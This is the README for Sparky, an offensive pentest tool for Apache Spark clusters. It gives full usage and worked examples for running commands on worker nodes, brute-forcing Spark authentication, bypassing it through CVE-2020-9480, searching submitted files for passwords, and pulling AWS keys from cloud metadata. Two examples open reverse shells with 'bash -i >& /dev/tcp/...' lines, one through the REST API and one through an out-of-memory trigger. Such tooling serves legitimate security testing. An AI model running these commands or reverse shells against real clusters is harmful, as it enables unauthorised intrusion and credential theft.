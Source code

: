 # Sparky

Sparky is a tool to easily abuse and pentest a Spark server in Standalone mode. (Some features work on a Yarn cluster as well)

## Features

* Get general information about the Spark cluster, from HTTP Web interface, REST API and through internal APIs
  * Spark version
  * Number of workers, CPU cores, memory
  * List of applications
* Execute arbitrary code on Spark workers (through a normal task or through the REST API)
* Explore temporary files and Jars used by other applications
* Bruteforce Spark authentication (fireSparky.py)
* Bypass authentication on a Spark Standalone master (CVE-2020-9480)
* Dump metadata and user data attached to workers in a Cloud environment


## Usage

```sh
          ____              __
         / __/__  ___ _____/ /_\ \   /
        _\ \/ _ \/ _ `/ __/  '_/\ ` /
       /___/ .__/\_,_/_/ /_/\_\ /  /
          /_/                  / /
                              //
                             /

       A tool to pentest Spark clusters
                        @uthor: @ayoul3

Sparky: a tool to pentest Spark clusters

positional arguments:
  spark_master          The master node of a Spark cluster host:port. If no
                        port is provided, default to 7077
  driver_ip             Local IP to bind to for communicating with spark
                        workers.

optional arguments:
  -h, --help            show this help message and exit

General:
  -i, --info            Check REST API, HTTP interface, list executor nodes,
                        version, applications if possible
  -A APPNAME, --appname APPNAME
                        Name of the app as it will appear in the spark logs
  -U USERNAME, --username USERNAME
                        Name of the user as it will appear in the spark logs
  -S SECRET, --secret SECRET
                        Secret to authenticate to Spark master when SASL
                        authentication is required
  -P PYBINARY, --py PYBINARY
                        Python binary to execute worker commands. Can be full
                        path. Version must match the binary used to execute
                        this tool.
  -D DRIVERPORT, --driver-port DRIVERPORT
                        Port to bind to on the computer to receive
                        communication from worker nodes. Default: 8080
  -B BLOCKMANAGERPORT, --blockManager-port BLOCKMANAGERPORT
                        Port to bind to on the computer to receive block data
                        from worker nodes. Default: 8443
  -f, --list-files      Gather list of files (jars, py, etc.) submitted to a
                        worker - usually contains sensitive information
  -k, --search          Search for patterns in files submitted to a worker.
                        Default Patterns hardcoded in utils/searchPass.py
  -e EXTENSION, --extension EXTENSION
                        Performs list and search operations on particular
                        extensions of files submitted to a worker: *.txt,
                        *.jar, *.py. Default: *
  -y, --yarn            Submits the spark application to a Yarn cluster
  -d HDFS, --hdfs HDFS  Full address of the HDFS cluster (host:ip)
  -r RESTPORT, --rest-port RESTPORT
                        Use this port to contact the REST API (default: 6066)
  -t HTTPPORT, --http-port HTTPPORT
                        Use this port to contact the HTTP master web page
                        (default: 8088)
  -q, --quiet           Hide the cool ascii art

Command execution:
  -c CMD, --cmd CMD     Execute a command on one or multiple worker nodes
  -s SCRIPT, --script SCRIPT
                        Execute a bash script on one or multiple worker nodes
  -b, --blind           Bypass authentication/encryption and blindly execute a
                        command on a random worker node
  -m MAXMEM, --max-memory MAXMEM
                        Maximum Heap memory allowed for the worker to make it
                        crash and execute code. Usually varies between 1 and
                        10 (MB) Use with "-b" option. Default: 2
  -n NUMWOKERS, --num-workers NUMWOKERS
                        Number of workers to execute a command/search on.
                        Default: 1
  -w [RESTJARURL], --rest-exec [RESTJARURL]
                        if empty, execute a system command (-c or -s) on a
                        random worker using OnOutOfMemoryError trick. You can
                        provide a legitimate jar file to execute instead.
                        Format: FULL_JAR_URL::MAIN_Class
  -x BINPATH, --runtime BINPATH
                        Shell binary to execute commands and scripts on
                        workers. Default:bash. Examples : sh, bash, zsh, ksh
  -a, --scala           Submit a pure Scala JAR file instead of a Python
                        wrapped Jar file.

Cloud environment (AWS, DigitalOcean):
  -u, --user-data       Gather userdata or custom data information
  -g, --meta-data       Gather metadata information from the cloud provider
  -p, --private-key     Extracts AWS private key and session token if a role
                        is attached to the instance (AWS only)
```
## Prerequisites
### Installation
Sparky is a wrapper of the official Pyspark tool. Therefore you need a valid Java 8 environment as well. Sparky supports both Python 2.7 and Python 3.x.  

```sh
git clone https://github.com/ayoul3/sparky && cd sparky
pip --no-cahe-dir install -r requirements.txt
sudo apt install -y openjdk-8-jdk
export JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64/

python sparky.py <spark_ip> <computer_ip> -i
``` 
*Make sure the version of your local pyspark version matches the spark version on the cluster*
```sh
python -m pip install pyspark==2.4.3
``` 

### Python Environment
The version of Python used to execute Sparky must match the default version of Python on the Worker node. Otherwise you will get the following exception:
```
Exception: Python in worker has different version 3.6 than that in driver 2.7, PySpark cannot run with different minor versions.Please check environment variables PYSPARK_PYTHON and PYSPARK_DRIVER_PYTHON are correctly set.
```
Try running sparky with a python version 3.6 or adding the flag -P python2 or executing a Scala payload (--scala)
 
### Network
Sparky binds to two ports 8080 and 8443 that need to be reachable from the Workers executing the code. Otherwise the job will get stuck at the following line:
```
[Stage 0:>                                            (0 + 0) / 10]
```

## Examples
### Code execution 1
Executing a command line provided that the network and python environment requirements check out.
Spark master is listening at 192.168.1.30:7077. Your computer is 192.168.1.22
```sh
python sparky.py 192.168.1.30 192.168.1.22 -c "whoami"

[*] Testing target to confirm a spark master is running on 192.168.1.30:7077
[+] Spark master confirmed at 192.168.1.30:7077
[*] Initializing local Spark driver...This can take a little while
[*] Found a maximum of 1 workers that can be allocated
[*] Executing command on 1 workers
[+] Output of worker 0
hadoop
```
### Code execution 2
This time using Python 3 and a script file
Spark master is listening at 192.168.1.30:7077. Your computer is 192.168.1.22
```sh
python sparky.py 192.168.1.30 192.168.1.22 -s "cmd.sh" -P python3

[*] Testing target to confirm a spark master is running on 192.168.1.30:7077
[+] Spark master confirmed at 192.168.1.30:7077
[*] Initializing local Spark driver...This can take a little while
[*] Found a maximum of 1 workers that can be allocated
[*] Executing command on 1 workers
[+] Output of worker 0
hadoop
```
### Code execution 3
This time using scala code
Spark master is listening at 192.168.1.30:7077. Your computer is 192.168.1.22
```sh
python sparky.py 192.168.1.30 192.168.1.22 -c "whoami" --scala 
[*] Testing target to confirm a spark master is running on 192.168.1.30:7077
[+] Spark master confirmed at 192.168.1.30:7077
[*] Initializing local Spark driver...This can take a little while
[*] Found a maximum of 1 workers that can be allocated
[*] Executing command on 1 workers
[+] Output of worker 0
hadoop
```
### Blind code execution 4
Executing a JAR file using REST API on port 6066
Spark master is listening at 192.168.1.30:7077. Your computer is 192.168.1.22
```sh
python sparky.py 192.168.1.30 192.168.1.22 -c "bash -i >& /dev/tcp/192.168.1.22/443 0>&1" -w https://www.domain.com/file.jar

[*] Testing target to confirm a spark master is running on 192.168.1.30:7077
[+] Spark master confirmed at 192.168.1.30:7077
[+] Command successfully executed on a random worker
```
Omitting the JAR URL works as well, but uses a different trigger to execute code. See OnOutofMemory below

### Blind code execution 5 - Authentication bypass
Blind code execution using OnOutOfMemory parameter to trigger code execution. Need to adjust the "-m" parameter which refers to maximum heap memory allocated by JVM.
Spark master is listening at 192.168.1.30:7077. Your computer is 192.168.1.22
```sh
python sparky.py 192.168.1.30 192.168.1.22 -c "bash -i >& /dev/tcp/192.168.1.22/443 0>&1" -b

[*] Testing target to confirm a spark master is running on 192.168.1.30:7077
[+] Spark master confirmed at 192.168.1.30:7077
[*] Performing blind command execution on workers
[*] Executing command on a random worker
[+] Positive response from the Master
[*] If cmd failed, adjust the -m param to make sure to case an out of memory error
```

## Licence
Sparky is licenced under GPLv3